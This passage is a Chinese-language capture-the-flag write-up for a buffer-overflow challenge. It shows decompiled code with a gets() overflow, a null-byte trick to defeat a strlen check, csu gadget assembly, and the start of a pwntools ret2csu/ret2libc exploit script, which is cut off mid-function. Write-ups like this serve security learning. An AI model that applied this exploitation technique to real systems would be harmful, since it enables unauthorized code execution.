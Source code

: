 ```bash
size_t vuln()
{
  size_t result; // rax
  char s[16]; // [rsp+0h] [rbp-10h] BYREF

  write(1, "This challenge no backdoor!", 0x1BuLL);
  gets(s);
  result = strlen(s);
  if ( result > 0x10 )
  {
    write(1, "may you can pass it right?", 0x1AuLL);
    exit(1);
  }
  return result;
}
```

非常直白的一道题，只有一个 strlen 对我们的垃圾数据做了检测，只要用\\x00 绕过即可

那么我们的思路就是利用 ret2csu 调用 write 函数来泄露真实地址，进而进行 ret2libc 的过程

csu 函数

```bash
.text:0000000000401310                               loc_401310:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401310 4C 89 F2                      mov     rdx, r14
.text:0000000000401313 4C 89 EE                      mov     rsi, r13
.text:0000000000401316 44 89 E7                      mov     edi, r12d
.text:0000000000401319 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401319
.text:000000000040131D 48 83 C3 01                   add     rbx, 1
.text:0000000000401321 48 39 DD                      cmp     rbp, rbx
.text:0000000000401324 75 EA                         jnz     short loc_401310
.text:0000000000401324
.text:0000000000401326
.text:0000000000401326                               loc_401326:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401326 48 83 C4 08                   add     rsp, 8
.text:000000000040132A 5B                            pop     rbx
.text:000000000040132B 5D                            pop     rbp
.text:000000000040132C 41 5C                         pop     r12
.text:000000000040132E 41 5D                         pop     r13
.text:0000000000401330 41 5E                         pop     r14
.text:0000000000401332 41 5F                         pop     r15
.text:0000000000401334 C3                            retn
```

脚本如下：

```bash
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./chal')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
```